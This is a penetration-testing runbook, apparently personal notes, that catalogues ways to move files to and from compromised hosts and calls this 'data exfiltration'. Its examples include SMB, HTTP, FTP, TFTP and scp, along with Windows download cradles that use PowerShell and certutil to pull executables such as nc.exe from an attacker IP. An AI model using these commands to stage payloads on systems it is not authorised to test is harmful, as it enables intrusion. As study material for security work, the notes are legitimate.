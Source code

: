 # File Transfer Checklist

## Introduction

This runbook is to help with file transfering or data exfiltration. Transfering data to and from hosts is important.  This is a guide to walk through various methods.


## Table of Contents

- [File Transfer Checklist](#file-transfer-checklist)
  - [Introduction](#introduction)
  - [Table of Contents](#table-of-contents)
  - [SMB Server](#smb-server)
  - [HTTP](#http)
    - [Server](#server)
    - [Client](#client)
  - [Pure-FTPd](#pure-ftpd)
  - [tftp](#tftp)
  - [scp](#scp)

## SMB Server

```sh
impacket-smbserver share . -smb2support -user user -password test1230
```

```cmd
net use z:\ \\<smbserver>\share /USER:user test123
copy z:\ .
```

## HTTP

### Server

```sh
python -m SimpleHTTPServer 8080
```

```sh
service apache2 start
```

### Client

Windows
``` cmd
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<IP>/file.exe','C:\temp\file.exe')"
iwr -uri http://<IP>/file -Outfile c:\temp\file
wget http://<IP>/file -O file
curl http://<IP>/file -o file
certutil -urlcache -f http://<IP>:803/ok.exe ok.exe  
```

Linux
```sh
wget http://<IP>/file
curl http://<IP>/file > file
```

## Pure-FTPd

```sh
sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
sudo pure-pw useradd offsec -u ftpuser -d /ftphome
sudo pure-pw mkdb
cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
```

Transfer
```
echo open <IP> 21> ftp.txt
echo USER <user> >> ftp.txt
echo password>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
```
```
ftp -v -n -s:ftp.txt
```

## tftp


Coofig
```
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
```
Transfer
```
tftp -i <IP> get file
```

## scp

Local File to a Remote System
```sh 
scp file <user>@192.168.0.20:/home/<directory>/
```
Remote File to a Local System
```sh 
scp <user>@192.168.0.20:/home/<directory>/ file
```
